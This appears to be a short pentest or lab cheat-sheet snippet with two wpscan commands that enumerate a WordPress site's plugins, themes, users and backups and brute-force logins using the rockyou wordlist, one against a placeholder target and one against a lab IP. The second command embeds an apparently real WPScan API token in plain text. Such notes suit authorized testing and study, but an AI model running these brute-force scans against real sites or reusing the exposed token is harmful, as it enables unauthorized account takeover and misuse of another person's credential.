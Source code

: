 # Scan vulnerability + bruteforce passwords
```bash
# at: all theme
# tt: timthumbs
wpscan --rua -e ap,at,tt,cb,dbe,u,m --api-token $WPSCAN_API_TOKEN --passwords /vagrant/wordlist/rockyou.txt --url http://TARGET

wpscan --rua -e ap,cb,dbe,u,m --api-token Usp8VWjBXl4ECLs5ZGXYvUSZQ5iyjs3mw0BB57j1hes --passwords /vagrant/wordlist/rockyou.txt --url http://10.10.235.45
```
